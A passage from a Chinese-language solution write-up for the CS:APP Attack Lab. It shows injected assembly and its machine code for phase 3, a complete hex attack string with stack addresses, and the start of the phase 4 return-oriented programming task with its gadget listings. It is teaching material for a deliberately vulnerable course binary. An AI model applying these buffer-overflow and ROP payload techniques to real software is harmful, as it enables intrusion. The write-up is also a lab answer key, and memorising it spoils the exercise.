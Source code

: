 从上述汇编代码可知，函数touch3的起始地址为：`0x00000000004018fa`。

因此，攻击代码为：

```assembly
mov $0x5561dca8, %rdi
push $0x4018fa        # 将函数touch3的起始地址压入栈中
ret                   # 将控制权传递给函数touch3
```

通过汇编和反汇编，可以得到上述代码对应的字节序列（机器码）：

```assembly
[hegongshan@hgs solutions]$ gcc -c phase3.s
[hegongshan@hgs solutions]$ objdump -d phase3.o

phase3.o:	文件格式 elf64-x86-64


Disassembly of section .text:
0000000000000000 <.text>:
       0:	48 c7 c7 a8 dc 61 55 	movq	$1432476840, %rdi
       7:	68 fa 18 40 00 	pushq	$4200698
       c:	c3 	retq
```

因此，最终的攻击字符串为：

```
48 c7 c7 a8 dc 61 55 68
fa 18 40 00 c3 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
35 39 62 39 39 37 66 61 00
```

### 面向返回编程（Return-Oriented Programming，ROP）

ROP的策略是从现有的程序代码找出这样的字节序列：它可以构成一个或多个指令，且紧随其后的就是指令ret。这种片段被称为gadget。

#### 任务四

任务描述：使用ROP攻击完成任务二，当函数getbuf返回后，让rtarget执行函数touch2，而不是继续执行函数test。

* 使用movq、popq、ret（对应的编码为0xc3）以及nop（对应的编码为0x90，仅使程序计数器加1）四种指令的gadget凑出攻击字符串。

* 只能使用前8个x86-64寄存器，即%rax~%rdi

建议：

* 需要的gadget可以从start_farm到mid_farm之间的函数中找到，

* 只需要两个gadget就可以凑出攻击字符串

从start_farm到mid_farm的汇编代码如下：

```c
getval_142:
  40199a:	b8 fb 78 [90 90] 	movl	$2425387259, %eax
  40199f:	[c3] 	retq

addval_273:
  4019a0:	8d 87 [48 89 c7] [c3] 	leal	-1010333368(%rdi), %eax
  4019a6:	[c3] 	retq

addval_219:
  4019a7:	8d 87 51 73 [58] [90] 	leal	-1873251503(%rdi), %eax
  4019ad:	[c3] 	retq

```